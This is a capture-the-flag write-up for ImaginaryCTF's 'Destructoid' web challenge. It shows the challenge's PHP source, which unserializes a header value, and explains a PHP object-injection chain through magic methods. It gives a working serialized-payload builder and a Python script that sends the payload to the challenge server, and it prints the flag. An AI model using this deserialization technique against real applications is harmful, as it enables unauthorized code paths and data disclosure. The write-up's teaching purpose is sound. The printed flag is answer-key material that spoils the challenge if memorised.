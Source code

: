 # Destructoid

## Description
https://www.youtube.com/watch?v=zwpDmwKxulQ

## Files
No files.

## Methodology
We somehow have to leak the source code of the webapp. After a bit of fuzzing we get it.

https://destructoid.chal.imaginaryctf.org/index.php?source

```php
 <?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}
```

Clearly there is an `unserialize` method used which is our entrypoint of the exploit. We have to send our payload in the HTTP header but sending `HTTP_X_PAYLOAD` won't work. Read the php docs and you will know we have to send the payload in `X-PAYLOAD` header.

## Exploit
We will chain the magic methods to execute what we want.

`__destruct` and `__wakeup` will get called immediately upon unserialization.

`__construct` will get called when we create an object from `X`.

`__toString` will get called when we `echo` an object.


We start with `Y` and set `$secret` to `$this` so as to echo itself (class Y). Then the `__toString` of Y will be called and set `printflag` to `true` and create `new X` which we don't care about (this trigger the printing of `No!`). The in the unserialization payload we also set some arbitrary variable to `new X("flag")`. This create new object of `X`, we already have `$printflag` set to `true` and we get the flag.

## Code
### `unser.php`
```php
<?php

class X {
    function __construct($cleanup) {
        $this->cleanup = $cleanup;
    }
}

class Y {
    public function __construct() {
        $this->secret = $this;
        $this->mmmmmm = new X("flag");
    }
}

echo serialize(new Y());
```

### `exploit.py`
```python
import requests
import subprocess
import base64

result = subprocess.run(['php', 'unser.php'], stdout=subprocess.PIPE)
pay = base64.b64encode(result.stdout)
pay = pay.decode()

h = {'X-PAYLOAD': pay}

r = requests.get('https://destructoid.chal.imaginaryctf.org/', headers=h)
print(r.content.decode())
```

## Loot
![loot](./loot.PNG)

## Flag
**ictf{d3s3r14l1z4t10n_4nd_d3struct10n}**